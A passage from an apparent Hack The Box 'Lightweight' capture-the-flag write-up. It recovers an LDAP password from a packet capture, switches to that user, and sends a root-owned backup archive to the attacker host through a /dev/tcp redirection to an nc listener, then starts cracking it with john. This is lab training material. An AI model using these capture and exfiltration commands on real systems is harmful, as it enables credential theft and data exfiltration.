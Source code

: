 ![image.png]({{ site.baseurl }}/assets/lightweight/image%208.png)

```bash
ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2
```

Another quick way to find the password is just use strings on the file:

```bash
strings catpure.pcap

SB50Y
-uid=ldapuser2,ou=People,dc=lightweight,dc=htb
 8bc8251332abe1d7f105d3e53ad39ac2
SB50
SB=0
```

Another way to get pcap capture straight to host whilst live updating wireshark is:

```bash
ssh 10.10.16.7@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

Anysway, let’s move on and log in as ldapuser2:

```bash
ssh ldapuser2@10.10.10.119
```

We cannot ssh in. Let’s just su from our current terminal:

```bash
su ldapuser2
```

We are in:

![image.png]({{ site.baseurl }}/assets/lightweight/image%209.png)

We see a backup.7z owned by root. We cannot transfer it back either as ldapuser2 does not have ssh access. The target also do not have nc. Let’s try this:

```bash
#on attack host
nc -lnvp 1234 > backup.7z

#on target 
cat backup.7z > /dev/tcp/10.10.16.7/1234

```

We now have the file on our host. Let’s extract it:

```bash
7z e backup.7z #we try ldapuser2 password
```

Did not work. Let’s try to crack it with john. First we have to turn it into john format:
